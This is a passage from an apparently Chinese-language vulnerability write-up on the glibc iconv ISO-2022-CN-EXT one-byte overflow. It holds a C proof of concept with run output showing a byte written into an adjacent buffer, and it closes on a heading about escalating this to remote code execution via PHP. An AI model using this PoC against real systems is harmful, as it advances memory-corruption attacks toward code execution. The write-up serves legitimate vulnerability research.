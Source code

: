 ```C
}
```

编译运行

```
$ gcc poc.c -o poc
$ ./poc
./poc
Remaining bytes (should be > 0): -1
000000: 41 41 41 41 41 1b 24 2a 48 00 00 00 00 00 00 00  AAAAA.$*H.......
```

[![img](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145535117-1538097801.png)](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145535117-1538097801.png)

我们使用python来看看PoC的特殊字符：

[![img](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145643157-177391273.png)](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145643157-177391273.png)

从上面的结果可以看出，这个特殊字符只占3字节，但是却会被转译为`\x1b$*H`四字节，产生了一字节的溢出，上面的PoC似乎还是不太好展示出该漏洞的影响情况，我们可以简单的改改代码，如下所示：

```c
void main()
{
    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");

    char input[0x3] = "劄";
    char output[0x3] = {0};
    char overflow[0x5] = "AAAA";

    char *pinput = input;
    char *poutput = output;

    // Same size for input and output buffer
    size_t sinput = 3;
    size_t soutput = 3;

    size_t status = iconv(cd, &pinput, &sinput, &poutput, &soutput);

    printf("Remaining bytes (should be > 0): %zd\nstatus = %d\n", soutput, status);

    hexdump(output, 0x10);
    printf("overflow = %s\n", overflow);
}
```

[![img](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145827688-257435867.png)](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711145827688-257435867.png)

从上面的结果可以看出，我们成功的溢出了1字节到`overflow`变量中。

# 0x03 从字节溢出到让PHP的任意文件读取进阶成为RCE
